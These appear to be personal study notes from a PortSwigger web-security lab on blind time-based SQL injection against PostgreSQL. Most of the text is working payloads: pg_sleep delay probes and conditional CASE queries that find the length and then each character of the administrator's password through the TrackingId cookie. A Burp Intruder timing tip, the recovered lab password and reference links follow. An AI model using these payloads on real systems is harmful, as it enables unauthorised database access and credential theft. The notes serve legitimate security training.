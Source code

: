 `'||pg_sleep(5)--`
![[Pasted image 20230223215129.png]]

`;'%3bSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`![[Pasted image 20230223215904.png]]
Password is 20 chars
`'%3b SELECT CASE WHEN (SELECT 'a' from users where username='administrator' AND length(password)%3d20) = 'a' THEN pg_sleep(2) ELSE pg_sleep(0) END--`
![[Pasted image 20230223220746.png]]
changing threads to 1 and showing response timer
![[Pasted image 20230223222959.png]]

![[Pasted image 20230223222917.png]]

![[Pasted image 20230223223120.png]]
password:
	rngvyop7qbp41ceo1v38

Other way to write query
`TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
`TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
`TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

---
Tags: #SQL #SQLI #Oracle_sql #Postgresql #Blind_sql #manual_sql #union_sql #port_swigger 
Resources:
[PortSwigger](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal/Intruder)
[PortSwigger Union Attacks](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal/Intruder)
[PortSwigger cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
[[SQLi]]
[[SQL-Injection (SQLi)]]
[[Sql-maps]]


